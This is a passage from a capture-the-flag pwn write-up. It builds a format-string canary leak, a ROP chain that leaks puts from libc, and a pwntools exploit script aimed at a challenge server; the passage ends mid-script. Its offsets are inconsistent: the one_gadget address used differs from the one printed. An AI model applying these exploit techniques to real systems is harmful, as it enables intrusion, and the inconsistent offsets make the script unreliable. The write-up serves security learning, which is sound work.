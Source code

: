 Now we build our payloads:

```
first_payload = "%23$llx%20$llx"
second_payload = "A"*72 + p64(canary) + p64(0x0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
```

With leaked puts libc address we can get the libc of the program using libc-database which was `libc6_2.23-0ubuntu11.2_amd64.so`  
Then we use `one_gadget`:

```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf]
└─$ one_gadget libc6_2.23-0ubuntu11.2_amd64.so
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
```

Now we have everything to build our final payload  

```python
from pwn import *

context.log_level = 'debug'
LOCAL = False
REMOTE = True

if REMOTE:
	p = remote('chall.nitdgplug.org',30091)
if LOCAL:
	p = process('./chall')

# ---LEAK THE CANARY AND INIT_ADDR---
first_payload = "%23$llx%20$llx"
p.sendlineafter("Can you help find the Canary ?\n",first_payload)
canary = long(p.recv(16),16)
init_addr = long(p.recv(16),16)

# ---CALCULATE ADDR WITH OFFSET---
base_prog = init_addr - 0x12e0
puts_got = base_prog + 0x3fa0
puts_plt = base_prog + 0x10b0
main_addr = base_prog + 0x12a5
pop_rdi = base_prog + 0x1343

# ---BUFFER OVERFLOW PAYLOAD---
sec_payload = "A"*72 + p64(canary) + p64(0x0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendline(sec_payload)
p.recv(0x48)
temp = p.recv(8)
s1 = ""
for x in temp:
	if ( x != "\n"):
		s1 += x
s1 = s1 + chr(0) + chr(0)
puts_libc = u64(s1)

# ---CALCULATE LIBC BASE ADDRESS---
log.info("Puts Libc Address: " + hex(puts_libc))
libc_base = puts_libc - 0x84450
one_gadget = libc_base + 0xe3b31

p.sendlineafter("Can you help find the Canary ?\n","%23$llx")
canary = long(p.recv(16),16)
```